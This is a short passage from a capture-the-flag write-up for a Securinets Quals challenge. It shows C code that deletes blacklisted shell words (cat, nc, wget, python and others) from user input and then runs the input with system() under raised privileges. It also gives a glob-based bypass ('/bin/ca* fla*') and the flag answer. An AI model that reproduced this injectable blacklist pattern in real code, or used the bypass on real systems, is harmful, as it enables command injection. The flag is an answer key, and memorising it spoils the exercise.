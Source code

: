 ```C
{
char * blacklist[]={"cat","head","less","more","cp","man","scp","xxd","dd","od","python","perl","ruby","tac","rev","xz","tar","zip","gzip","mv","flag","txt","python","perl","vi","vim","nano","pico","awk","grep","egrep","echo","find","exec","eval","regexp","tail","head","less","cut","tr","pg","du","`","$","(",")","#","bzip2","cmp","split","paste","diff","fgrep","gawk","iconv","ln","most","open","print","read","{","}","sort","uniq","tee","wget","nc","hexdump","HOSTTYPE","$","arch","env","tmp","dev","shm","lock","run","var","snap","nano","read","readlink","zcat","tailf","zcmp","zdiff","zegrep","zdiff"};
 char str[80], word[50];
    int index;
    printf("Welcome to Securinets Quals CTF \o/ \n");
    printf("Enter string:\n");
    read(0,str,79);
for (int i=0;i<sizeof(blacklist)/sizeof(blacklist[0]);i++)
{
    index = search(str, blacklist[i]);
    if (index !=  - 1)
    {
        delete_word(str, blacklist[i], index);
    }
}
setreuid(geteuid(),geteuid());
close(0);
system(str);
}

```

```
$ echo "/bin/ca* fla*" | ./wrapper
Welcome to Securinets Quals CTF o/ 
Enter string:
securinets{who_needs_exec_flag_when_you_have_linker_reloaded_last_time!!!?}
```

FLAG: securinets{who_needs_exec_flag_when_you_have_linker_reloaded_last_time!!!?}

---

## HIDDEN (misc)
